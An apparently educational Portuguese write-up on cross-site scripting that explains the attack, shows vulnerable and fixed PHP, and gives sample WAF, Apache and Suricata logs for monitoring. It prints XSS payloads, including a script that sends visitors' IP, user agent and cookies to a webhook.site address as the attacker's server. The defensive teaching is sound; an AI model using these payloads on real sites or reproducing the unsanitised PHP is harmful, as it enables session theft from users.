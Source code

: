 ## XSS (Cross-Site Scripting)

**Como ocorre o ataque?**

**Por que o ataque acontece?**

**Como corrigir?**

**Como monitorar?**

------------------------------------------------------------

- **Como ocorre o ataque?**

O ataque XSS acontece quando um usuário mau intencionado consegue injetar código malicioso (normalmente JavaScript) em uma página da web, explorando uma vulnerabilidade onde a entrada do usuário não é devidamente tratada ou sanitizada. Essa falha permite que o código seja executado no navegador de outras pessoas quando elas visitam a página infectada, levando à violação de segurança.

**Exemplos de códigos maliciosos**

Capturar user agent:
```js
<script>alert(navigator.userAgent);</script>
```

Capturar IP publico:
```js
<script>fetch('https://api.ipify.org?format=json').then(response => response.json()).then(data => alert(data.ip)).catch(error => alert('Error:', error));</script>
```

Capturar cookie:
```js
<script>alert(document.cookie);</script>
```

Redirecionar pagina:
```js
<script>
window.location.href = "http://www.google.com";
<script>
```

Captura tudo e mandar para o servidor do atacante:

```js
<script>
fetch('https://api.ipify.org?format=json')
  .then(response => response.json())
  .then(data => {
    let ip = data.ip;
    let userAgent = navigator.userAgent;
    let cookie = document.cookie;
    fetch(`https://webhook.site/5b0d3ce1-235a-42cb-8263-99b9a5667e2d?ip=${ip}&userAgent=${userAgent}&cookie=${cookie}`);
  })
  .catch(error => console.log('Error:', error));
</script>
```


- **Por que o ataque acontece?**

O ataque ocorre devido à ausência de sanitização ou filtragem adequada das entradas de dados no código. Muitas vezes, desenvolvedores não preveem ou desconsideram a possibilidade de usuários inserirem código malicioso nas entradas de dados, o que pode resultar em um vetor de ataque XSS.

Codigo vulnerável sem sanitização ou filtragem:

```php

if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
   echo '<pre>Hello ' . $_GET[ 'name' ] . '</pre>';

}
```

- **Como corrigir?**

A prevenção de ataques XSS implica na implementação de práticas de segurança na codificação, que incluem a sanitização de todas as entradas de dados. As entradas devem ser tratadas como não confiáveis por padrão. Métodos de escape, codificação ou uso de listas de permissões podem ser usados para remover ou neutralizar possíveis códigos maliciosos. 

```php

if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
   echo '<pre>Hello ' . htmlspecialchars($_GET[ 'name' ]) . '</pre>';
}
```

- **Como monitorar?**

Para monitorar possíveis ataques XSS, é possível monitorar os logs do servidor web para quaisquer atividades suspeitas, como requisições que contenham scripts ou caracteres indesejáveis. Ferramentas como Web Application Firewall (WAF), Sistemas de Detecção de Intrusão (IDS) ou Sistemas de Prevenção de Intrusão (IPS) também podem ser configurados para monitorar o tráfego de rede e gerar alertas quando detectarem padrões de ataques XSS. Além disso, testes regulares de penetração e varreduras de vulnerabilidades podem ajudar a identificar pontos fracos que poderiam ser explorados em ataques XSS.

Exemplo de log CloudFlare:

```JSON
{
  "timestamp": 1629537263711,
  "scheme": "https",
  "host": "www.site-vul.xyz",
  "client": {
    "ip": "192.0.2.1",
    "browser": "Chrome 91.0.4472",
    "deviceType": "desktop"
  },
  "request": {
    "method": "GET",
    "uri": "/form.php?param=<script>alert('xss')</script>",
    "headers": {
      "user-agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36",
      "cookie": "cookie_informacao",
      "referer": "http://malicious.xyz",
      "origin": "http://malicious.xyz"
    }
  },
  "response": {
    "status": 403,
    "headers": {
      "cf-waf": "cloudflare",
      "cf-ray": "68ae1267cea82927-SEA",
      "content-length": "571"
    }
  },
  "ruleTriggered": {
    "id": "100601",
    "description": "Cross Site Scripting (XSS) Attempt Detected",
    "action": "block"
  }
}
```

Log Apache:

```apache
192.0.2.1 - - [31/Jul/2023:07:24:32 -0300] "GET /DVWA/dvwa/images/logo.png HTTP/1.1" 304 249 "http://localhost/DVWA/vulnerabilities/xss_r/?name=%3Cscript%3Ealert%28%22XSS%22%29%3B%3C%2Fscript%3E" "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0"
```

Log do Suricata:
```json
{
  "timestamp": "2023-07-31T14:42:15.145279+0000",
  "flow_id": 1532726509421548,
  "in_iface": "eth0",
  "event_type": "alert",
  "src_ip": "192.0.2.1",
  "src_port": 51820,
  "dest_ip": "203.0.113.7",
  "dest_port": 80,
  "proto": "TCP",
  "http": {
    "hostname": "www.site-vul.xyz",
    "url": "/form.php",
    "http_user_agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36",
    "http_method": "GET",
    "protocol": "HTTP/1.1",
    "status": 403,
    "length": 571
  },
  "alert": {
    "action": "blocked",
    "gid": 1,
    "signature_id": 1,
    "rev": 1,
    "signature": "ET WEB_SPECIFIC_APPS Cross Site Scripting Attempt",
    "category": "Attempted User Privilege Gain",
    "severity": 1
  },
  "payload": "<script>alert('xss');</script>",
  "payload_printable": "<script>alert('xss');</script>",
  "stream": 0
}
```
